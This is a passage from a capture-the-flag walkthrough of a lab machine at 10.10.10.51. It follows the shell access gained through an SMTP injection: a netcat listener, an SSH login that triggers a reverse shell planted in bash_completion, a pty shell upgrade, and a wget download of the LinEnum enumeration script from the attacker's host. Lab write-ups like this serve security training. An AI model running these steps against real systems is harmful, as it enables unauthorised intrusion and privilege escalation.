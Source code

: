 If you’re not familiar with using telnet for SMTP communication, refer to this [guide](https://docs.microsoft.com/en-us/exchange/mail-flow/test-smtp-with-telnet?view=exchserver-2019). One thing to note is the single quote we added in the MAIL FROM field and after the FROM field. This is so that the file is interpreted properly at the backend and our reverse shell runs.

Next, set up a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Then SSH into Mindy’s account so that the content of the bash\_completion directory is loaded.

```text
ssh mindy@10.10.10.51
```

We get a shell that’s no longer restricted by the rbash shell!

![](../images/max/759/1*-g9cs4Y3RIcMG88e3yREnQ.png)

Let’s upgrade it to a better shell.

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground.

Now we need to escalate privileges.

## Privilege Escalation <a id="866e"></a>

Let’s transfer the LinEnum script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine, move to the /tmp directory where we have write privileges and download the LinEnum script.

```text
cd /tmp
wget http://10.10.14.12:5555/LinEnum.sh
```
